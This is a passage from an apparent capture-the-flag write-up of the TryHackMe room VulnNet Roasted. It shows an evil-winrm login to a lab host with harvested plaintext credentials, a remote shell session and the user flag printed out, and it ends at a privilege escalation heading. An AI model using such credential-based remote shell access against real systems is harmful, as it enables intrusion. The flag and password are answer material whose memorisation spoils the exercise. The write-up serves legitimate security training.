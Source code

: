 Great! I found the creds of user `a-whitehat`. Now it’s time to get the shell!

# Gain Access - Get first flag

Use `evil-winrm` built-in tool on kali linux to access the target machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ evil-winrm -i 10.10.73.84 -u a-whitehat -p 'bNdKVkjv3RR9ht'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\a-whitehat\Documents> whoami
vulnnet-rst\a-whitehat
```

Find the `user.txt` file in the current directory and get the user flag:

```tsx
*Evil-WinRM* PS C:\Users\enterprise-core-vn> tree /f
Folder PATH listing
Volume serial number is 58D0-66AA
C:.
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\enterprise-core-vn> more Desktop\user.txt
THM{726b7c0baaac1455d05c827b5561f4ed}
```

# Privilege Escalation → administrator

Check the current user `a-whitehat` in which group member:
